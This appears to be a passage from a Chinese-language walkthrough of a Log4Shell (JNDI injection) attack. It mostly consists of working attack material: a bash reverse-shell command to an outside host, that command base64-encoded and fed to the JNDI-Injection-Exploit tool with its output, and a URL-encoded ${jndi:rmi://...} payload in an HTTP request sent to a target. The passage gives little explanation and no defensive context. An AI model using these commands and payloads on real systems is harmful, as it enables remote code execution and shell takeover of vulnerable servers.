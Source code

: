 ```
bash -i >& /dev/tcp/100.1.1.169/1245 0>&1
```

将其base64编码

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDAuMS4xLjE2OS8xMjQ1IDA+JjE=
```

先用JNDI注入工具起RMI或ldap，具体命令如下：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDAuMS4xLjE2OS8xMjQ1IDA+JjE=}|{base64,-d}|{bash,-i}" -A 100.1.1.169
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[ADDRESS] >> 100.1.1.169
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDAuMS4xLjE2OS8xMjQ1IDA+JjE=}|{base64,-d}|{bash,-i}

```

![image-20230711141952152](img/image-20230711141952152.png)

选择一个payload复制，放入burpsuite的如下报文中（需要URL编码），发送给目标主机：

```http
GET /hello?payload=%24%7b%6a%6e%64%69%3a%72%6d%69%3a%2f%2f%31%30%30%2e%31%2e%31%2e%31%36%39%3a%31%30%39%39%2f%71%7a%74%73%39%63%7d%20 HTTP/1.1
Host: 192.168.1.189:52721
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 6

```
